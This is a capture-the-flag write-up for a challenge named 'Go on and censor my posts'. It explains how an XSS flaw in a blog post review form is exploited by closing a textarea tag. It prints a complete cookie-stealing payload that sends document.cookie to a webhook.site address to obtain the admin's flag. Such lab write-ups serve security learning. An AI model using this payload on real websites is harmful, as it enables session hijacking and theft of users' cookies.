 # Challenge `Go on and censor my posts` writeup

- Vulnerability: XSS vulnerability 
- Where: *Update post and send it to admin review* button
- Impact: We can inject code in the *Content* text area on the *Add a new blogpost for review* section that will be reflected in the web browser after clicking on the *Update post and send it to admin review* button. This code can include a link to a website you are controlling and by doing a request to it you can collect the cookies of who did the request 

## Steps to reproduce

1. If we try any previous payloads we notice that they are not executed but processed as normal text. By inspecting the page source we notice that we are inserting text in a text area (`<textarea>`). If we close this tag and after it write the code we want to be executed, it will not be read as text anymore. The code we want to be executed is the same as the challenge `My favourite cookies` since the goal and the vulnerability are the same. The final payload is `</textarea><img src=x onerror="this.src='https://webhook.site/cb7a6cb9-b6c7-4409-b550-cac7a12ceab4?c='+document.cookie; this.removeAttribute('onerror');">`
2. The rest of the steps are also the same as the `My favourite cookies` challenge
3. Like in that challenge there is an admin's cookie called **SECRET** whose value is the flag
